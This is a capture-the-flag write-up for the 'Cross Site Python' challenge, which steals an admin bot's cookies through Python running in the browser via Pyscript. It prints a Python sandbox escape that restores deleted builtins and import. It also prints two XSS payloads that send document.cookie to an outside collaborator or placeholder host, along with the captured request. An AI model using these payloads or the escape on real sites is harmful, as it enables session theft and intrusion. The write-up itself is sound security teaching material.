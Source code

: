 # Cross Site Python

The challenge provided the source code which is available in the `src` folder.

To run it locally, use the following command:
```
docker build -t cross-site-python . && docker run -p 5000:5000 cross-site-python
```

The application consisted of a small Flask backend and more importantly, a frontend that allows Python execution in the browser using [Pyscript](https://pyscript.net/) and [Pyodide](https://pyodide.org/en/stable/) as interpreter.

To complete the challenge, it was required to obtain the admin (bot) cookies, sending him a link to a page that it would visit later.

The page should execute a malicious Python frontend code that injects an XSS JS payload into the page. This JS payload would simply send the cookies back to the attacker.

## Analysis

One way to insert an XSS element inside the page is using the `js` `pyscript` library, which is a wrapper that allows accessing DOM elements from Python code.

However, attempting to import anything would return an error: _the `import` function itself was missing!_

**Payload**:
```
import js
```

**Output**:
```
Original exception was:
Traceback (most recent call last):
  File "/lib/python311.zip/_pyodide/_base.py", line 468, in eval_code
  File "/lib/python311.zip/_pyodide/_base.py", line 310, in run
  File "<exec>", line 3, in <module>
ImportError: __import__ not found
```

In fact, the challenge `pyscript` was modified by the author, deleting the `import` function and the `__loader__` variable from the Python scope.

**File**: pyjail.js:4215
```
    return await interpreter.run("del globals()['__loader__']\ndel __builtins__.__import__\n" + pysrc);
```

## An Over-Complicated Solution

At this point, I entered the rabbit hole, trying to understand if it was possible to import libraries without using the `import` function...   
Or to restore the original Python `__builtins__` variable...

Using the power of Google, I come across this old Reddit thread, describing how it was possible to restore the `__builtins__` variable after its deletion.
https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals/

Some code was available but for old Python versions, while the application runs on Python 3.11!

Example code for Python 3.1 (untested):
```
lookup = lambda n: [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == n][0]
try:
    lookup('Codec')().decode('')
except lookup('BaseException') as e:
    del lookup
    __builtins__ = e.__traceback__.tb_next.tb_frame.f_globals['__builtins__']
```

However, searching deeper, I found a recent post (8 months old) with almost zero iteractions:
https://www.reddit.com/r/Python/comments/yaqoux/recovering_cleared_globals_and_builtins/

In particular, the user [Rawing7](https://www.reddit.com/user/Rawing7/) posted the following working code!
```
type = ''.__class__.__class__
ABCMeta = type.__subclasses__(type)[0]
abc_globals = ABCMeta.register.__globals__
_frozen_importlib_globals = type(abc_globals['__spec__']).__init__.__globals__
ModuleSpec = _frozen_importlib_globals['ModuleSpec']
BuiltinImporter = _frozen_importlib_globals['BuiltinImporter']
spec = ModuleSpec('builtins', BuiltinImporter, origin='built-in')
__builtins__ = BuiltinImporter.create_module(spec)

class ExceptionRestorer:
    def __enter__(self):
        return self
    
    def __exit__(self, exc_type, exc_value, traceback):
        queue = [exc_type.__base__.__base__.__base__]
        while queue:
            exc = queue.pop()
            if exc.__module__ == 'builtins':
                setattr(__builtins__, exc.__name__, exc)
                queue += exc.__subclasses__()
        
        __builtins__.IOError = OSError
        __builtins__.EnvironmentError = OSError
        __builtins__.WindowsError = OSError
        return True

with ExceptionRestorer():
    1/0

import io
__builtins__.open = io.open

import site
site.main()
```

Then, it was just a matter of importing the library and creating an image with a Burp Collaborator URL that exfiltrates the cookies.
```
import js
i = js.document.createElement("IMG")
i.src = "http://xxx.oastify.com?cookie=" + js.document.cookie
js.document.body.prepend(i)
```

Bingo!
```
GET /?cookie=flag=GPNCTF{4pp4r3ntly_pyth0n_1s_n0w_us3d_f0r_3v3ryth1ng_l2lIMU7mVOxawTvXBub} HTTP/1.1
Host: xxx.oastify.com
...
```

## A More Straightforward Solution
Turns out that my solution was overkill, it was also possible to find a reference to `js` library using just the following code:
```
js = sys.modules['pyscr' + 'ipt'].js
js.fetch("https://domain.com/flag?" + js.document.cookie)
```
_(credits to switch from the Discord CTF Channel)_